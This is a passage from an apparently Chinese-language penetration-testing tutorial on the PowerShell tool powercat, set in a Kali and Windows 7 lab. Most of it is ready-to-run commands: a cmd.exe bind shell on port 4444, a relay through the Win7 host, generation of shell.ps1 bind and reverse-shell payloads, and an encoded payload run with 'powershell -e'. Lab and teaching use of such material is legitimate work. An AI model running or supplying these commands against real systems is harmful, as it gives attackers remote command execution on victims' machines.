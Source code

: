    
    
    powercat -l -v -p 4444 -e cmd.exe

在 win7 中执行以下命令

    
    
    powercat -l -v -p 5555 -r tcp:172.16.214.21:4444

最后在 kali 下连接 win7

    
    
    nc -v 172.16.214.2 5555

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204336.png)

### powercat 生成 payload

在攻击机上运行以下命令生成 shell.ps1 payload 文件

    
    
    powercat -l -p 4444 -e cmd -g > shell.ps1

将 shell.ps1 文件拷贝到目标主机上后，执行 shell.ps1 文件

之后在攻击机上运行以下命令即可获得 shell

    
    
    powercat -c rhost -p rport -v
    
    
    powercat -c 172.16.214.21 -p 4444 -v

反向连接也可以

在攻击机上生成 ps1 文件，并开启监听

    
    
    powercat -c rhost -p rport -ep -g > shell.ps1
    
    
    powercat -c 172.16.214.2 -p 4444 -ep -g > shell.ps1
    
    
    powercat -l -p 4444 -v

之后在靶机上，运行 ps1 文件就会上线了，如果不想生成文件，也可以使用 -ge 生成经过编码的 payload

在攻击机上生成 payload，并开启监听

    
    
    powercat -c 172.16.214.2 -p 4444 -ep -ge
    
    
    powercat -l -p 4444 -v

在靶机上执行刚生成的 payload

    
    
    powershell -e payload

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204337.png)
